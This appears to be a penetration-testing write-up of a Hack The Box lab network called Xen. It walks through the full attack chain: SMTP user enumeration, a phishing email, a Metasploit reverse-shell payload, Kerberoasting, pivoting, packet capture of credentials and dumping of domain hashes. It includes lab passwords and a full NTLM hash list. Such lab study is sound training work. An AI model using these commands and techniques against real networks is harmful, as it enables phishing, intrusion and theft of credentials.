

# xen


## nmap

PORT    STATE SERVICE
25/tcp  open  smtp
80/tcp  open  http
443/tcp open  https


## web

- virtual host routing is present
- we need to add domain in hosts file to go to proper website


#### gobuster

```
===============================================================
2020/09/12 14:05:17 Starting gobuster
===============================================================
/Images (Status: 301)
/META-INF (Status: 403)
/WEB-INF (Status: 403)
/aspnet_client (Status: 301)
/css (Status: 301)
/images (Status: 301)
/jakarta (Status: 401)
/js (Status: 301)
/meta-inf (Status: 403)
/remote (Status: 301)
/web-inf (Status: 403)
===============================================================
2020/09/12 14:07:20 Finished
===============================================================
```

- remote takes us to citrix XEN app


## smtp


#### user enumeration

```
smtp-user-enum -U <wordlist> -D humongousretail.com -t 10.13.38.12 -m 50 -M RCPT
```


```
######## Scan started at Sat Sep 12 14:22:01 2020 #########
10.13.38.12: it@humongousretail.com exists
10.13.38.12: legal@humongousretail.com exists
10.13.38.12: marketing@humongousretail.com exists
10.13.38.12: SALES@humongousretail.com exists
10.13.38.12: sales@humongousretail.com exists
```


#### setoolkit

- create a phishing page using social enginnering toolkit
- using site cloner
- using swak to send mail

```
swaks --to sales@humongousretail.com --from it@humongousretail.com --body 'phis link' -server 10.13.38.12
```


#### credentials

```
user=awardel    password=@M3m3ntoM0ri@

user=jmendes    password=VivaBARC3L0N@!!!

user=pmorgan    password=Summer1Summer!
```


## xenapp

- we need to install xen webclient
- then we login and to the service and get a rdp session


- inside there network using awardel's credentials
- we get flag 1
- now we need to escalate to administrator


## PowerUp

- used to check for basic misconfigurations


- AlwaysInstallElevated registry is enabled 
- that means we install everything as administrator


## msfconsole

- create a msfvenom paylaod

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.14.14.5 lport=8888 -f exe -o shell.exe 
```




- start a listener 


- post module elevated install privileges


- now we can get second flag and even enumerate further


## kerberoast

- found a kerberoastable user

```
Invoke-Kerberoast -OutputFormat HashCat|Select-Object -ExpandProperty hash | out-file -Encoding ASCII kerb-Hash0.txt
```


#### colabcat

- its hashcat on google resources makes it very fast
- we will use the hash we found earlier to crack using hashcat


- colabcat is veryfast 
- we will use hashcat rules to make a bigger list of password

```
hashcat -m 13100 haash -r InsidePro-PasswordsPro.rule rockyou.txt
```

- took less than 10 minutes


#### credentials

mturner	4install!


## pivoting

- there is a second subnet in the machine and all the hosts are on that subnet 
- we need to connect to those ips to do further penetration


- first we need to find all others alive hosts in system

```
run arp_scanner -r 172.16.249.0/24
```


```
hosts
[*] ARP Scanning 172.16.249.0/24
[*] IP: 172.16.249.200 MAC 00:50:56:b9:b6:a7
[*] IP: 172.16.249.201 MAC 00:50:56:b9:b8:85
[*] IP: 172.16.249.204 MAC 00:50:56:b9:30:ee
[*] IP: 172.16.249.202 MAC 00:50:56:b9:00:17
[*] IP: 172.16.249.205 MAC 00:50:56:b9:49:1e
[*] IP: 172.16.249.203 MAC 00:50:56:b9:01:1e
[*] IP: 172.16.249.255 MAC 00:50:56:b9:49:1e
```


#### proxychains

- we can pivot using proxychains directly from our system
- first we need to use autoroute module in metasploit


- then activate socks module in metasploit 


- now configure proxychains to pass through this and we are good to go

- proxychaining kerberoastable ticket

```
proxychains GetUserSPNs.py 'htb.local/pmorgan:Summer1Summer!' -dc-ip 172.16.249.200 -request
```


## crackmapexec

```
proxychains crackmapexec smb 172.16.249.201 -u mturner -p '4install!' --shares
```


- Citrix$ is a interesting share


- these share support only version1

```
proxychains smbclient \\\\172.16.249.201\\Citrix$ -U 'htb.local\mturner' --option 'client min protocol=NT1'
```


## ppk

- its putty private key
- we can use john to decrypt it

```
sudo putty2john private.ppk
```


#### kwprocessor

- we cannot decrypt it using rockyou
- lets kwprocessor it gives us permutation of different keyboard walks wordlist based on key mapping

```
./kwp basechars/full.base keymaps/en-us.keymap routes/2-to-16-max-3-direction-changes.route -s 1 -o wordlist.keywalk
```


- got a passphrase with this wordlist


#### private ssh

```
puttygen private.ppk -O private-openssh -o id_rsa
```


- converted putty ppk key to openssh format 
- now we can use ssh to login to theserver


```
proxychains nmap -iL hosts -p 22  
```


- 172.16.249.202 has port 22 open


- we know username as nsroot as it is running netscaler and there is a default user nsroot

```
proxychain -i id_rsa nsroot@172.16.249.202
```


## tcp dump

- now we can do a tcp dump and copy captured file to local machine
- we will use scp with proxychains to copy file

```
tcpdump -w captur.cap -v -s0
```


````
strings captur.cap | grep pass
````


```
strings captur.cap| grep netscaler-svc -B4 -A4
```


#### credentials

```
username=cmeller&password=XEN{bu7_ld4p5_15_4_h455l3}

netscaler-svc			#S3rvice#@cc
```


## user enumeration

- we try to collect all the service accounts and see how many of these account have same password


```
netscaler-svc
backup-svc
xenserver-svc
test-svc
app-svc
print-svc
mssql-svc
```


- from enumeration on subnet we figured out 172.16.249.200 has port 5985 open
- using crackmapexec on that ip

```
proxychains crackmapexec winrm 172.16.249.200 -u svc.lst -p '#S3rvice#@cc'
```


#### credentials

```
backup-svc 		#S3rvice#@cc
```


## sebackup - privesc


- first we will mount a snapshot with diskshadow

```
SET CONTEXT PERSISTENT NOWRITERSSET CONTEXT PERSISTENT NOWRITERS
add volume c: alias manish
create
expose %manish% z:

add volume c: alias manish
create
expose %manish% z:
```

```
diskshadow.exe /s shadow.txt
```


- after mounting it successfully we need to import two modules

```
Import-Module SeBackupPrivilegeUtils.dll
Import-Module SeBackupPrivilegeCmdLets.dll
Copy-FileSebackupPrivilege z:\Windows\NTDS\ntds.dit C:\temp\ntds.dit
reg save HKLM\SYSTEM c:\temp\system
```


- now we just need to download both the files
- then we can perform a hashdump and get all the hashes


## impacket-secretsdump

```
impacket-secretsdump -just-dc-ntlm -ntds ndts.dit -system system LOCAL -outputfile hashdump-XEN
```


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:822601ccd7155f47cd955b94af1558be:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:5e507509602e1b651759527b87b6c347:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:3791ca8d70c9e1d2d2c7c5b5c7c253e8:::
CITRIX$:1103:aad3b435b51404eeaad3b435b51404ee:fd981d0c915932bb3ddf38b415c49121:::
htb.local\alarsson:1104:aad3b435b51404eeaad3b435b51404ee:92a44f1aa6259c55f9f514fabae5cc3f:::
htb.local\jmendes:1106:aad3b435b51404eeaad3b435b51404ee:10d0c05f7d958955f0eaf1479b5124a0:::
htb.local\pmorgan:1107:aad3b435b51404eeaad3b435b51404ee:8618ba932416a7404a854b250bf28577:::
htb.local\awardel:1108:aad3b435b51404eeaad3b435b51404ee:270e4d446437f4383b092b42a9f88f0a:::
VDESKTOP3$:1109:aad3b435b51404eeaad3b435b51404ee:e582f9b9d77dae6357bb574620b721ce:::
VDESKTOP2$:1110:aad3b435b51404eeaad3b435b51404ee:f583f9b5fc860b9ae21e482caaad0553:::
VDESKTOP1$:1111:aad3b435b51404eeaad3b435b51404ee:f96d793a4b9d2b8517123ad8d1e26b03:::
htb.local\xenserver-svc:1112:aad3b435b51404eeaad3b435b51404ee:ffc86906b87839a80c9a5df66fd39452:::
htb.local\print-svc:1113:aad3b435b51404eeaad3b435b51404ee:ffc86906b87839a80c9a5df66fd39452:::
htb.local\mssql-svc:1115:aad3b435b51404eeaad3b435b51404ee:ffc86906b87839a80c9a5df66fd39452:::
htb.local\mturner:1117:aad3b435b51404eeaad3b435b51404ee:330e8573172989af7b756c4b831d7788:::
htb.local\app-svc:1118:aad3b435b51404eeaad3b435b51404ee:feabcb5e62391216ff8ba2bbf487298b:::
htb.local\rprakash:1119:aad3b435b51404eeaad3b435b51404ee:64b49f377000aa5e512625de928e6a05:::
LAPTOP1$:1120:aad3b435b51404eeaad3b435b51404ee:fafcb53e7c9e126632dee80a69a6bc40:::
LAPTOP2$:1121:aad3b435b51404eeaad3b435b51404ee:a898f3e4f7766d961f1c93d96e52821e:::
LAPTOP3$:1122:aad3b435b51404eeaad3b435b51404ee:ff9313db8ceebfb0e37be27dcbda8011:::
LAPTOP5$:1123:aad3b435b51404eeaad3b435b51404ee:bb0e3fae33f0f5fa0149e0eca3ea8802:::
LAPTOP6$:1124:aad3b435b51404eeaad3b435b51404ee:fb6667b6521fcb2e3c8ab72688e560d1:::
htb.local\urquarti:1125:aad3b435b51404eeaad3b435b51404ee:182bc93cf09b8c0f5061facd4976f664:::
htb.local\rdrew:1137:aad3b435b51404eeaad3b435b51404ee:22cb6094730daf99418dc0373ed0a46e:::
htb.local\fboucher:1138:aad3b435b51404eeaad3b435b51404ee:7f2dca6c6f0865f8955e720063a98f4c:::
htb.local\cmeller:1139:aad3b435b51404eeaad3b435b51404ee:be5d31e3ee91641b2f4d5ad7da384c4b:::
htb.local\anagy:1140:aad3b435b51404eeaad3b435b51404ee:b53e1fc07b17a1dd5637db069ce81f67:::
WK01$:1142:aad3b435b51404eeaad3b435b51404ee:e7ef2a5d6ae326424d8f4b936fe8a129:::
WK02$:1143:aad3b435b51404eeaad3b435b51404ee:e55fbb54432c61dea5f21874a342583d:::
WK03$:1144:aad3b435b51404eeaad3b435b51404ee:acbf68032188283bfdaadea761b9a700:::
WK04$:1145:aad3b435b51404eeaad3b435b51404ee:ecbbb4c9d9b1817aaaa47f3bebcec950:::
WK05$:1146:aad3b435b51404eeaad3b435b51404ee:1b4e60ea2d87ec132336aa0cb06cb58c:::
WK06$:1147:aad3b435b51404eeaad3b435b51404ee:2c17c9ff7dd85996f1078a12eb469f4a:::
WK07$:1149:aad3b435b51404eeaad3b435b51404ee:cc2413c14387878386b6a9d62f75f72e:::
WK09$:1150:aad3b435b51404eeaad3b435b51404ee:1e0a5fed55e52312227b5769013fa7e9:::
htb.local\backup-svc:1151:aad3b435b51404eeaad3b435b51404ee:ffc86906b87839a80c9a5df66fd39452:::
htb.local\test-svc:1152:aad3b435b51404eeaad3b435b51404ee:4e36a1854ae7cc3681b6168fe5906e45:::
htb.local\netscaler-svc:1602:aad3b435b51404eeaad3b435b51404ee:ffc86906b87839a80c9a5df66fd39452:::
```


#### pass the hash attack

